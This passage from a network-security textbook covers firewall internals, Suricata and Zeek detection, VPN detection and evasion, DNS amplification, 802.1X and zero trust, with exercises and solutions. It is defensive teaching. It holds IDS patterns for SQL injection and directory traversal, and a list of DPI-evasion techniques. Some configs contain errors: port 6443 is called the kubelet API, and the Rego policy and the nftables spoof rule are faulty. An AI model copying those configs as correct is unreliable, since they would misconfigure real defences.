**A15:** Traditional perimeter security operates on "trust but verify" → once inside the network, users and devices are trusted. This leads to flat networks where lateral movement is easy after initial compromise. Zero Trust operates on "never trust, always verify" → no entity is trusted by default regardless of location. Every access request is authenticated, authorized, and encrypted. Key differences: micro-segmentation replaces VLANs, identity replaces IP addresses as the security primitive, device posture is checked before access, and all traffic is encrypted regardless of network boundary.

---

## Section 16: Summary

- **Firewalls:** Packet filters are fast but stateless; stateful firewalls track connections; proxy firewalls inspect applications; NGFWs combine all with DPI; WAFs protect web apps
- **IDS/IPS:** Signature-based detects known attacks; anomaly-based detects zero-days; IPS blocks inline while IDS alerts
- **VPNs:** IPsec (enterprise site-to-site), WireGuard (modern, fast, minimal), OpenVPN (flexible, compatible)
- **Network Segmentation:** VLANs (Layer 2 isolation), DMZ (buffer zone), micro-segmentation (per-workload default-deny)
- **Protocol Security:** DNSSEC (signed DNS), DHCP snooping, BGP RPKI, SNMPv3 with auth+privacy
- **Wireless Security:** WPA3 with SAE defeats offline brute-force, 802.1X/EAP-TLS for enterprise, OWE for public Wi-Fi
- **NAC:** 802.1X with posture assessment, quarantine non-compliant devices
- **DDoS:** Rate limiting, SYN cookies, Anycast CDN, Cloud scrubbing
- **Zero Trust:** Never trust, always verify → identity-driven, micro-segmented, encrypted-everywhere
- **Case Studies:** WannaCry (SMB exploit + worm propagation + kill switch), Mirai (IoT default creds + massive DDoS), Stuxnet (4 zero-days + air-gap breach + PLC sabotage)

---

## Exercises

### Review Questions

1. At which OSI layer does a stateful firewall maintain state information?

<details>
<summary>Solution</summary>
Layer 4 (Transport). A stateful firewall tracks TCP connection state (SYN, SYN-ACK, ACK, FIN, RST) and UDP pseudo-state using a connection table. It makes filtering decisions based on the state of the connection, not just individual packets.
</details>

2. What is the primary weakness of signature-based IDS? How does anomaly-based IDS address it?

<details>
<summary>Solution</summary>
Signature-based IDS cannot detect novel (zero-day) attacks — it only matches known patterns. Anomaly-based IDS establishes a baseline of normal traffic and flags deviations, enabling detection of unknown attacks. However, anomaly-based has higher false positive rates.
</details>

3. Explain how WPA3 SAE prevents offline dictionary attacks against Wi-Fi passwords.

<details>
<summary>Solution</summary>
WPA3 SAE (Simultaneous Authentication of Equals) uses a zero-knowledge proof (Dragonfly handshake). Both parties prove knowledge of the password without revealing it. An attacker cannot capture the handshake and crack the password offline — each guess requires interaction with the real AP.
</details>

4. What is the difference between a VPN tunnel mode and transport mode?

<details>
<summary>Solution</summary>
Transport mode encrypts only the payload (L4+), keeping the original IP header visible — used for end-to-end (host-to-host). Tunnel mode encrypts the entire original IP packet and encapsulates it in a new IP header — used for site-to-site (gateway-to-gateway) VPNs.
</details>

5. How does ARP spoofing work? List three detection/prevention techniques.

<details>
<summary>Solution</summary>
ARP spoofing: attacker sends forged ARP replies, associating their MAC with the gateway's IP, intercepting traffic. Detection: 1) ARPwatch (monitors IP-MAC changes), 2) Dynamic ARP Inspection (DAI) on switches, 3) Static ARP entries for critical devices.
</details>

6. What is the role of RPKI in BGP security?

<details>
<summary>Solution</summary>
Resource Public Key Infrastructure (RPKI) uses digitally signed route origin authorizations (ROAs) to verify that an AS is authorized to advertise specific IP prefixes. This prevents BGP hijacking by allowing routers to reject invalid route announcements.
</details>

7. How does micro-segmentation implement zero trust at the workload level?

<details>
<summary>Solution</summary>
Micro-segmentation divides the network into isolated zones at the workload level (per-VM, per-container, per-pod). Each workload has a whitelist of allowed connections. In Kubernetes, Network Policies enforce this — default-deny ingress/egress with allow rules based on labels, namespaces, and ports.
</details>

### Application Problems

1. Design an iptables firewall for a DMZ web server that allows: HTTP/HTTPS from internet, SSH from 10.0.0.0/24 only, MySQL from 10.0.1.0/24 only, blocks all other inbound traffic, allows established/related, and logs all dropped packets.

<details>
<summary>Solution</summary>
```
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT
iptables -A INPUT -p tcp -s 10.0.0.0/24 --dport 22 -j ACCEPT
iptables -A INPUT -p tcp -s 10.0.1.0/24 --dport 3306 -j ACCEPT
iptables -A INPUT -j LOG --log-prefix "Dropped: "
iptables -A INPUT -j DROP
```
</details>

2. You are configuring WPA3-Enterprise for a 500-employee company. Design the authentication infrastructure, including 802.1X, RADIUS server, PKI, and client configuration.

<details>
<summary>Solution</summary>
Deploy FreeRADIUS or Microsoft NPS as the RADIUS server. Set up a PKI (AD CS or Step CA) to issue server and client certificates. Configure APs to use WPA3-Enterprise with 802.1X/EAP-TLS. Push client certificates via MDM. Optionally use EAP-TTLS/PAP as fallback with strong passwords + MFA.
</details>

3. Your company is experiencing a DDoS attack (20,000 requests/second to the login page from random IPs). Design a multi-layer mitigation strategy.

<details>
<summary>Solution</summary>
Layer 1: ISP-side scrubbing (Cloudflare/AWS Shield) to filter volumetric attacks. Layer 2: WAF rate limiting (200 req/min/IP to login). Layer 3: Challenge-based mitigation (JS challenge or CAPTCHA for suspicious IPs). Layer 4: Application-level queuing and connection limiting. Layer 5: Auto-scaling to absorb traffic.
</details>

4. A branch office needs to connect to HQ over the internet with encrypted site-to-site connectivity. Compare IPsec, WireGuard, and OpenVPN for this purpose and make a recommendation.

<details>
<summary>Solution</summary>
WireGuard is recommended for modern site-to-site: faster (kernel-level, ~4k lines of code), simpler config, built-in roaming, ChaCha20-Poly1305 encryption. IPsec is mature but complex (IKEv2, multiple RFCs). OpenVPN is flexible but slower (userspace). For branch-to-HQ, WireGuard with pre-shared keys offers the best performance/security ratio.
</details>

5. Given a network with multiple VLANs (Management 10, Users 20, Servers 30, DMZ 40), design firewall rules that enforce: users can access internet and servers on port 80/443, servers can access DMZ database on port 3306, DMZ cannot initiate connections to internal networks, management can SSH to all zones.

<details>
<summary>Solution</summary>
```
VLAN 20 → Internet: allow (NAT)
VLAN 20 → VLAN 30: allow tcp/80,443
VLAN 30 → VLAN 40: allow tcp/3306
VLAN 40 → VLAN *: deny all (DMZ cannot initiate)
VLAN 10 → VLAN 20,30,40: allow tcp/22
Default: deny all inter-VLAN
```
</details>

### Case Study Analysis

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/case-study-analysis-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/case-study-analysis-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/case-study-analysis-sticky.svg" target="_blank" rel="noopener">
  
</a>


1. **WannaCry:** A hospital with a flat network. An employee plugs in an infected USB. Trace the infection path and identify the network architectural changes needed to prevent recurrence.

<details>
<summary>Solution</summary>
WannaCry spreads via EternalBlue (SMBv1 exploit) and DoublePulsar backdoor. On a flat network: infected USB → workstation → SMB scan → other workstations → servers. Mitigation: segment network into VLANs (clinical, admin, IoT), block SMBv1 at firewalls, enforce 802.1X for device authentication, disable unnecessary USB ports.
</details>

2. **Mirai:** A manufacturing plant has 500 IoT sensors on the same VLAN as the production servers. Design a network segmentation strategy that isolates IoT devices while maintaining necessary communication.

<details>
<summary>Solution</summary>
Create IoT VLAN with default-deny ACLs. Only allow outbound traffic to specific management server IPs/ports. Production servers in separate VLAN with strict ingress rules from IoT VLAN. Use a bastion/jump host for admin access to IoT devices. Apply rate limiting per IoT device to prevent DDoS amplification.
</details>

3. **Stuxnet:** An air-gapped SCADA network for a chemical plant. Propose a security architecture that protects against USB-borne threats without compromising operational requirements.

<details>
<summary>Solution</summary>
Multiple layers: 1) USB scanning station — all removable media must pass through an air-gapped scanning kiosk. 2) Data diode for unidirectional gateway from IT to OT (no return path). 3) Application whitelisting on SCADA hosts (only approved executables run). 4) Full disk encryption with TPM attestation. 5) Honeypot devices to detect scanning activity.
</details>

### Challenge Problems

1. Design a zero-trust architecture for a cloud-native company with 200 microservices, 50 employees, and AWS infrastructure. Include: identity provider, service mesh, network policies, device trust, and monitoring.

<details>
<summary>Solution</summary>
IdP: Keycloak/OIDC for user auth. Service mesh: Istio with mTLS (STRICT mode) for service-to-service. Network policies: Kubernetes NetworkPolicy with default-deny, allow by label. Device trust: osquery + FleetDM for endpoint telemetry, compliance checks. Monitoring: OPA/Rego for policy evaluation, Falco for runtime detection. All access authenticated and authorized per request.
</details>

2. Write a complete set of nftables rules for a Kubernetes node that: blocks all inbound traffic except kubelet API (6443), allows pod-to-pod traffic (10.42.0.0/16), allows cluster-to-external traffic, logs dropped packets, and prevents IP spoofing from pods.

<details>
<summary>Solution</summary>
```
table inet filter {
  chain input { type filter hook input priority 0;
    tcp dport 6443 accept
    ip saddr 10.42.0.0/16 accept
    ct state established,related accept
    log prefix "nftables-drop: " drop
  }
  chain forward { type filter hook forward priority 0;
    ip saddr 10.42.0.0/16 accept
    ip daddr 10.42.0.0/16 accept
    ct state established,related accept
    ip saddr != 10.42.0.0/24 drop
    log prefix "nftables-fwd-drop: " drop
  }
}
```
</details>

---

## References

- NIST SP 800-207: Zero Trust Architecture
- NIST SP 800-41 Rev 1: Guidelines on Firewalls and Firewall Policy
- OWASP: Web Application Firewall Evaluation Criteria
- CVE-2017-0144 (EternalBlue): Microsoft SMBv1 Remote Code Execution
- CVE-2017-13077 (KRACK): Key Reinstallation Attacks
- RFC 8446: TLS 1.3
- RFC 8110: Opportunistic Wireless Encryption (OWE)
- ZMap/Mirai: Understanding the Mirai Botnet (USENIX Security 2017)
- Snake in the Grass: Stuxnet Analysis (Langner 2013)
# Chapter 3 Continued: Network Security → Advanced Topics

> This section extends Chapter 3 with deeper protocol analysis, additional practical examples, and extended interview preparation.

---

## Section 17: Advanced Firewall Internals

### 17.1 Netfilter Hooks (Linux Kernel)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-1-netfilter-hooks-linux-kernel-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-1-netfilter-hooks-linux-kernel-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-1-netfilter-hooks-linux-kernel-sticky.svg" target="_blank" rel="noopener">
  
</a>


Linux netfilter provides five hook points in the kernel networking stack:

```
         LOCAL_IN → INPUT chain
            ↑
[NF_INET_PRE_ROUTING] → FORWARD → [NF_INET_POST_ROUTING]
            ↓                              ↑
           LOCAL_OUT ← OUTPUT chain
```

**Hook Points:**

| Hook | Trigger | Chain Direction |
|------|---------|-----------------|
| NF_INET_PRE_ROUTING | First packet arrival | PREROUTING (nat/mangle) |
| NF_INET_LOCAL_IN | Packet destined for local host | INPUT (filter) |
| NF_INET_FORWARD | Packet routed through host | FORWARD (filter) |
| NF_INET_LOCAL_OUT | Packet generated locally | OUTPUT (filter) |
| NF_INET_POST_ROUTING | Packet leaving host | POSTROUTING (nat/mangle) |

**nftables chain types map to these hooks:**

```bash
# INPUT chain hooks NF_INET_LOCAL_IN
table inet filter {
    chain input {
        type filter hook input priority 0;
    }
}

# FORWARD chain hooks NF_INET_FORWARD
table inet filter {
    chain forward {
        type filter hook forward priority 0;
    }
}
```

### 17.2 Connection Tracking Internals

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-2-connection-tracking-internals-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-2-connection-tracking-internals-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-2-connection-tracking-internals-sticky.svg" target="_blank" rel="noopener">
  
</a>


The conntrack subsystem tracks `struct nf_conn` entries in a hash table.

```
struct nf_conn {
    struct nf_conntrack_tuple_hash tuplehash[IP_CT_DIR_MAX]; // original + reply
    struct nf_conntrack_proto proto;                         // TCP/UDP/ICMP state
    struct nf_conn_help *help;                               // ALG helpers (FTP, SIP)
    u_int32_t status;                                        // IPS_SEEN_REPLY, IPS_ASSURED
    u_int32_t timeout;                                       // per-protocol timeout
    struct timer_list timer;                                  // garbage collection
};
```

**Connection States (TCP conntrack):**

| State | Description | Timeout (default) |
|-------|-------------|-------------------|
| NEW | SYN seen, no reply yet | 120s |
| ESTABLISHED | SYN-ACK seen (reply direction) | 432000s (5 days) |
| RELATED | ICMP error for existing connection | 120s |
| INVALID | Packets fail checksum/sequence | 0s (immediate drop) |

**Sequence Diagram:**

```
Client (10.0.0.5:50000)          Server (93.184.216.34:80)
         │                              │
         │ ── SYN (seq=1000) ──────────→│  NEW (timeout=120s)
         │                              │
         │ ←─ SYN-ACK (seq=2000, ack=1001) ───│  ESTABLISHED (timeout=432000s)
         │                              │
         │ ── ACK (seq=1001, ack=2001) ─→│  ESTABLISHED, ASSURED
         │                              │
         │ ── HTTP GET / ──────────────→│  ESTABLISHED
         │                              │
         │ ←─ HTTP 200 OK (data) ───────│  ESTABLISHED
         │                              │
         │ ── FIN (seq=2001) ──────────→│  CLOSE_WAIT (timeout=120s)
         │ ←─ FIN-ACK ─────────────────│  LAST_ACK
         │ ── ACK ─────────────────────→│  TIME_WAIT (2MSL) → removed
```

### 17.3 BPF-based Firewalls (eBPF/XDP)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-3-bpf-based-firewalls-ebpf-xdp-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-3-bpf-based-firewalls-ebpf-xdp-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/17-3-bpf-based-firewalls-ebpf-xdp-sticky.svg" target="_blank" rel="noopener">
  
</a>


Modern firewalls use eBPF at the XDP (eXpress Data Path) hook, which runs before skb allocation → the fastest possible packet processing:

```c
// XDP program example (drop all traffic from specific subnet)
SEC("xdp_drop")
int xdp_drop_prog(struct xdp_md *ctx) {
    void *data = (void *)(long)ctx->data;
    void *data_end = (void *)(long)ctx->data_end;
    
    struct ethhdr *eth = data;
    if (data + sizeof(*eth) > data_end)
        return XDP_ABORTED;
    
    if (bpf_ntohs(eth->h_proto) == ETH_P_IP) {
        struct iphdr *ip = data + sizeof(*eth);
        if (data + sizeof(*eth) + sizeof(*ip) > data_end)
            return XDP_ABORTED;
        
        if (ip->saddr == 0x0100000A) { // 10.0.0.1
            return XDP_DROP;
        }
    }
    return XDP_PASS;
}
```

**Load the program:** `ip link set dev eth0 xdp obj drop.o sec xdp_drop`
**Performance:** 10-20 million packets per second per core (vs iptables ~1-2 Mpps)

---

## Section 18: Advanced IDS/IPS → Deep Dive

### 18.1 Suricata Multi-Threading Architecture

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-1-suricata-multi-threading-architecture-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-1-suricata-multi-threading-architecture-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-1-suricata-multi-threading-architecture-sticky.svg" target="_blank" rel="noopener">
  
</a>


Suricata uses a "runmode" packet processing pipeline:

```
[Packet Capture] → [Decode] → [Stream TCP] → [Detect] → [Output]
                                        ↑
                                  [App Layer Parser]
                                  (HTTP, DNS, TLS, SMB, etc.)
```

**Runmodes:**
- **autofp** (default): Multiple capture threads, 1 detect thread per NIC RSS queue
- **workers**: 1 thread handles capture + decode + detect per CPU
- **af-packet**: Fanout to multiple kernel sockets for zero-copy

**Performance tuning:**

```yaml
# suricata.yaml
threading:
  set-cpu-affinity: yes
  cpu-affinity:
    - management-cpu-set:
        cpu: [0]
    - receive-cpu-set:
        cpu: [1, 2, 3, 4]
    - worker-cpu-set:
        cpu: [5, 6, 7, 8]  # one per RSS queue
  detect-thread-ratio: 1.0  # one detect thread per worker

# Bypass kernel TCP stack for known-good traffic
flow_bypass: yes
```

### 18.2 PCRE Rules → Advanced Pattern Matching

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-2-pcre-rules-advanced-pattern-matching-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-2-pcre-rules-advanced-pattern-matching-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-2-pcre-rules-advanced-pattern-matching-sticky.svg" target="_blank" rel="noopener">
  
</a>


Suricata/Snort use PCRE (Perl Compatible Regular Expressions) for complex pattern matching:

```bash
# Detect SQL injection with multiple encodings
alert http $EXTERNAL_NET any -> $HOME_NET any
  (msg:"Advanced SQL Injection - UNION with comments";
   flow:to_server,established;
   pcre:"/UNION\s+(ALL\s+)?SELECT\s+.*\d+.*FROM/isU";
   classtype:web-application-attack;
   sid:1000010; rev:1;)

# Detect directory traversal with Unicode encoding
alert http $EXTERNAL_NET any -> $HOME_NET any
  (msg:"Directory Traversal - Encoded";
   flow:to_server,established;
   pcre:"/(?:%2e|%c0%[ae]|%e0%40%[ae]|\.\.)[/%\\]/i";
   classtype:attempted-recon;
   sid:1000011; rev:1;)
```

### 18.3 Zeek (formerly Bro) Scripting

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-3-zeek-formerly-bro-scripting-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-3-zeek-formerly-bro-scripting-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/18-3-zeek-formerly-bro-scripting-sticky.svg" target="_blank" rel="noopener">
  
</a>


Zeek is an event-based network monitoring system:

```zeek
# detect-ssh-brute.zeek
module SSHBruteforce;

export {
    redef enum Notice::Type += {
        Bruteforce_Detected
    };
    
    global brute_threshold = 10;
    global brute_interval = 5min;
}

global auth_fails: table[addr] of count &default=0;

event ssh_auth_failed(c: connection, auth_method_none: bool) {
    local src = c$id$orig_h;
    ++auth_fails[src];
    
    if (auth_fails[src] >= brute_threshold) {
        NOTICE([$note=Bruteforce_Detected,
                $msg=fmt("SSH brute force from %s (%d failures)", src, auth_fails[src]),
                $src=src]);
        
        # Reset counter after alerting
        delete auth_fails[src];
    }
}
```

**Run Zeek on a PCAP:** `zeek -r capture.pcap ./detect-ssh-brute.zeek`

**Zeek log output:**

```bash
cat notice.log | zeek-cut ts note msg

# Expected:
# 1700000000  SSHBruteforce::Bruteforce_Detected  SSH brute force from 10.0.0.5 (10 failures)
# 1700000300  SSHBruteforce::Bruteforce_Detected  SSH brute force from 10.0.0.9 (12 failures)
```

---

## Section 19: Advanced VPN → DPI and VPN Detection

### 19.1 How DPI Identifies VPN Traffic

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/19-1-how-dpi-identifies-vpn-traffic-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/19-1-how-dpi-identifies-vpn-traffic-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/19-1-how-dpi-identifies-vpn-traffic-sticky.svg" target="_blank" rel="noopener">
  
</a>


Deep Packet Inspection can identify VPN protocols:

**IPsec ESP detection:**
- Protocol field = 50 (0x32) in IP header
- Next Header byte in ESP trailer indicates inner protocol
- ESP SPI (Security Parameter Index) → first 4 bytes after IP header

**WireGuard detection:**
- UDP destination port 51820 (default, but changeable)
- First byte of handshake initiation: 0x01 (Type 1 = Handshake Initiation)
- First byte of transport data: 0x04
- After handshake: encrypted data indistinguishable from random

**OpenVPN detection:**
- TCP/UDP port 1194 (default)
- First packet begins with OpenVPN opcode (0x38 = P_CONTROL_HARD_RESET_CLIENT_V2)
- TLS handshake follows immediately
- HMAC-based authentication (if tls-auth enabled)

```bash
# tcpdump filter for IPsec ESP
tcpdump -i eth0 proto 50

# tcpdump filter for WireGuard
tcpdump -i eth0 udp port 51820

# tcpdump filter for OpenVPN
tcpdump -i eth0 port 1194
```

### 19.2 VPN Detection Evasion

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/19-2-vpn-detection-evasion-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/19-2-vpn-detection-evasion-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/19-2-vpn-detection-evasion-sticky.svg" target="_blank" rel="noopener">
  
</a>


Techniques used to bypass DPI:

1. **Protocol Obfuscation:** Wrap VPN in TLS (stunnel, obfsproxy)
2. **Port Hopping:** Change port periodically (WireGuard roaming)
3. **Packet Padding:** Add random padding to normalize packet sizes
4. **Traffic Morphing:** Make VPN traffic look like HTTP or video streaming
5. **udp2raw:** Encapsulate UDP VPN in fake TCP packets with SEQ/ACK

```bash
# Example: obfuscate OpenVPN with stunnel
# /etc/stunnel/stunnel.conf
[vpn]
client = yes
accept = 127.0.0.1:1194
connect = vpn.example.com:443
PSKsecrets = /etc/stunnel/psk.txt
```

---

## Section 20: Advanced DDoS → Amplification Attacks

### 20.1 DNS Amplification Attack

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/20-1-dns-amplification-attack-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/20-1-dns-amplification-attack-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/20-1-dns-amplification-attack-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
Attacker (spoofs victim IP: 1.2.3.4)
  │
  │ DNS query ("ANY isc.org") with src=1.2.3.4
  ├────────────────────→ Open DNS Resolver
  │                       ↑
  │ DNS response (~3500 bytes) to 1.2.3.4
  ├────────────────────→ Victim (1.2.3.4)
  
Amplification factor: ~50x-70x
  Input:  60 bytes (DNS query)
  Output: 3500 bytes (ANY response with DNSSEC)
```

**Other Amplification Protocols:**

| Protocol | Port | Amplification Factor | Technique |
|----------|------|---------------------|-----------|
| DNS | 53 | 50-70x | ANY query with DNSSEC |
| NTP | 123 | 550-600x | monlist command |
| memcached | 11211 | 10,000-50,000x | STATS command |
| SSDP | 1900 | 30-35x | Discovery request |
| SNMPv2 | 161 | 6-10x | GetBulkRequest |

**Mitigation for amplification attacks:**

```bash
# 1. DNS → disable recursion for external clients
iptables -A INPUT -p udp --dport 53 -s ! 192.168.0.0/16 -m recent --name DNS --set
iptables -A INPUT -p udp --dport 53 -s ! 192.168.0.0/16 -m recent --name DNS --rcheck --seconds 1 --hitcount 10 -j DROP

# 2. NTP → disable monlist (CVE-2013-5211)
restrict default kod nomodify notrap nopeer noquery
restrict -6 default kod nomodify notrap nopeer noquery

# 3. memcached → bind to localhost only (if local-only)
sed -i 's/-l 0.0.0.0/-l 127.0.0.1/' /etc/memcached.conf

# 4. uRPF (Unicast Reverse Path Forwarding) → drop packets with spoofed src
sysctl -w net.ipv4.conf.all.rp_filter=1
sysctl -w net.ipv4.conf.default.rp_filter=1
```

---

## Section 21: Advanced Wireless → Enterprise Deployment

### 21.1 802.1X Full Deployment Topology

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/21-1-802-1x-full-deployment-topology-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/21-1-802-1x-full-deployment-topology-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/21-1-802-1x-full-deployment-topology-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
                 ┌──────────────┐
                 │  FreeRADIUS  │
                 │  (auth + acct)│
                 └──────┬───────┘
                        │ RADIUS (UDP 1812/1813)
         ┌──────────────┼──────────────┐
         │              │              │
    ┌────▼────┐   ┌────▼────┐   ┌────▼────┐
    │  AP-01  │   │  AP-02  │   │  AP-03  │
    │(Authz)  │   │(Authz)  │   │(Authz)  │
    └────┬────┘   └────┬────┘   └────┬────┘
         │              │              │
    ┌────▼──────────────▼──────────────▼────┐
    │       802.1Q Trunk (VLAN pool)         │
    │  VLAN 10=Corp, VLAN 20=Guest, VLAN 30=IoT │
    └────────────────────────────────────────┘
```

**EAP-TLS Full Authentication Flow:**

```
Supplicant                     AP (Authz)              RADIUS Server
    │                             │                         │
    │---- EAPOL-Start ----------→│                         │
    │←--- EAP-Request/Identity ---│                         │
    │---- EAP-Response/Identity →│---- RADIUS Access-Request (EAP-Response) →│
    │                             │                         │
    │                             │                         │ RADIUS validates EAP type
    │                             │                         │
    │←--- EAP-Request (EAP-TLS: Server Hello + Cert) ------│
    │                             │                         │
    │---- EAP-Response (EAP-TLS: Client Cert, pre-master) →│
    │                             │                         │ Validates client cert
    │                             │                         │ Computes master key
    │                             │                         │
    │←--- EAP-Success + RADIUS Accept (session key) -------│
    │                             │                         │
    │       4-Way Handshake (derived from MSK from RADIUS) │
    │←--- PTK derivation --------→│                         │
    │                             │                         │
    │       802.11 Data (encrypted with PTK)               │
```

### 21.2 RADIUS Server Logs

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/21-2-radius-server-logs-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/21-2-radius-server-logs-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/21-2-radius-server-logs-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Monitor FreeRADIUS authentication
tail -f /var/log/freeradius/radius.log

# Expected:
# (0) pap: Login OK: [user@example.com] (from AP-01 port 1 cli AA:BB:CC:DD:EE:FF)
# (0) Sent Access-Accept Id 214 from 192.168.1.10:1812 to 192.168.1.20:36381
# (0)   MS-MPPE-Recv-Key = 0x7a6f...
# (0)   MS-MPPE-Send-Key = 0xdead...
# (0)   MS-MPPE-Encryption-Types: User may use all encryption types
# (1) pap: Login OK: [iot-sensor-01] (from AP-03 port 1 cli 11:22:33:44:55:66)
# (1) Sent Access-Accept Id 215 from 192.168.1.10:1812 to 192.168.1.30:54789
# (1)   Tunnel-Type = VLAN
# (1)   Tunnel-Medium-Type = IEEE-802
# (1)   Tunnel-Private-Group-Id = "30"  ← assigned to IoT VLAN
```

---

## Section 22: Advanced Zero Trust → Google's BeyondCorp Model

### 22.1 BeyondCorp Principles

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/22-1-beyondcorp-principles-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/22-1-beyondcorp-principles-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/22-1-beyondcorp-principles-sticky.svg" target="_blank" rel="noopener">
  
</a>


Google's BeyondCorp (2010, public 2014) is the canonical zero trust implementation:

```
Instead of:
  Corporate network = trusted
  Internet = untrusted

BeyondCorp:
  All access = untrusted
  Identity + Device + Context = authorization
```

**Components:**

| Component | Google Implementation | Open Source Equivalent |
|-----------|----------------------|----------------------|
| Access Proxy | Google Identity-Aware Proxy (IAP) | Pomerium, OAuth2 Proxy |
| Device Inventory | Google fleet management | FleetDM, osquery |
| Identity Provider | Google Identity Platform | Keycloak, Dex |
| Certificate Authority | Google Internal CA | Step CA, cert-manager |
| Trust Score | Context-aware access | OPA, Rego policies |

**Access Policy Example:**

```rego
# OPA policy for BeyondCorp-style access
package beyondcorp

default allow = false

allow {
    input.user.verified == true
    input.device.encrypted == true
    input.device.patched_within_days <= 30
    input.location.corporate == false => input.auth_level == "mfa"  # MFA required off-campus
    
    # Least privilege: explicit resource access
    input.resource in data.allowed_resources[input.user.role]
    
    # Context-based restrictions
    not data.geo_restricted[input.resource]
    input.location.country not in data.restricted_countries
}
```

### 22.2 BeyondCorp Implementation (Step CA + Pomerium)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/22-2-beyondcorp-implementation-step-ca-pomerium-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/22-2-beyondcorp-implementation-step-ca-pomerium-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/22-2-beyondcorp-implementation-step-ca-pomerium-sticky.svg" target="_blank" rel="noopener">
  
</a>


```yaml
# pomerium-config.yaml
policy:
  - from: https://internal.example.com
    to: http://app.internal:8080
    allowed_users:
      - user@example.com
    allowed_groups:
      - engineering
    allowed_domains:
      - example.com
    pass_identity_headers: true
  
  - from: https://admin.example.com
    to: http://admin-panel:3000
    allowed_users:
      - devops@example.com
    minimum_upstream_version: "TLS 1.3"

# Authenticate options:
authenticate_service_url: https://authenticate.example.com
idp_provider: "oidc"
idp_client_id: "pomerium-client"
idp_provider_url: "https://keycloak.example.com/auth/realms/internal"
```

**Step CA for internal certificates:**

```bash
# Initialize CA
step ca init \
    --name="Internal CA" \
    --dns="ca.internal.example.com" \
    --address=":443" \
    --provisioner="admin@example.com" \
    --password-file=/etc/step-ca/password.txt

# Issue certificate for service
step certificate create \
    api.internal.example.com \
    api.crt api.key \
    --ca-url=https://ca.internal.example.com \
    --provisioner=admin@example.com

# Verify mTLS connection
curl --cert api.crt --key api.key \
    https://service-mesh.internal:8443
```

---

## Section 23: Advanced Protocol Attacks

### 23.1 DHCP Starvation Attack → Full Walkthrough

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/23-1-dhcp-starvation-attack-full-walkthrough-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/23-1-dhcp-starvation-attack-full-walkthrough-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/23-1-dhcp-starvation-attack-full-walkthrough-sticky.svg" target="_blank" rel="noopener">
  
</a>


